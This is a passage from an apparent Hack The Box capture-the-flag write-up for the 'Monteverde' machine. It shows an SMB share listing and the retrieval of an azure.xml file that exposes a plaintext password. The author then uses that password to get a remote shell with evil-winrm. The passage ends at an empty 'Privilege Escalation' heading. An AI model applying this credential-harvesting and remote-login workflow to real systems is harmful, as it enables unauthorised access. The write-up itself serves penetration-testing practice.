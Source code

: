 ```bash
\mhope
  .                                   D        0  Fri Jan  3 19:11:18 2020
  ..                                  D        0  Fri Jan  3 19:11:18 2020
  azure.xml                          AR     1212  Fri Jan  3 19:10:23 2020

\roleary
  .                                   D        0  Fri Jan  3 18:40:30 2020
  ..                                  D        0  Fri Jan  3 18:40:30 2020

\smorgan
  .                                   D        0  Fri Jan  3 18:40:24 2020
  ..                                  D        0  Fri Jan  3 18:40:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> cd mhope
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```

I found a `azure.xml` file in `mhope` directory downloaded to my machine.

## Getting User Shell

```bash
root@w0lf:~/CTF/HTB/Boxes/Monteverde# cat azure.xml 
��[Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"](Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04")
  [Obj RefId="0"](Obj RefId="0")
    [TN RefId="0"](TN RefId="0")
      [T](T)Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential[/T](/T)
      [T](T)System.Object[/T](/T)
    [/TN](/TN)
    [ToString](ToString)Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential[/ToString](/ToString)
    [Props](Props)
      [DT N="StartDate"](DT N="StartDate")2020-01-03T05:35:00.7562298-08:00[/DT](/DT)
      [DT N="EndDate"](DT N="EndDate")2054-01-03T05:35:00.7562298-08:00[/DT](/DT)
      [G N="KeyId"](G N="KeyId")00000000-0000-0000-0000-000000000000[/G](/G)
      [S N="Password"](S N="Password")4n0therD4y@n0th3r$[/S](/S)
    [/Props](/Props)
  [/Obj](/Obj)
```

It reveals a password for us. It can be user `mhope` password. We know port `5985` open so I tried `evil-winrm`

It worked I logged in with `mhope : 4n0therD4y@n0th3r$`

![Untitled](/img/htb-monteverde/Untitled%203.png)

## Privilege Escalation

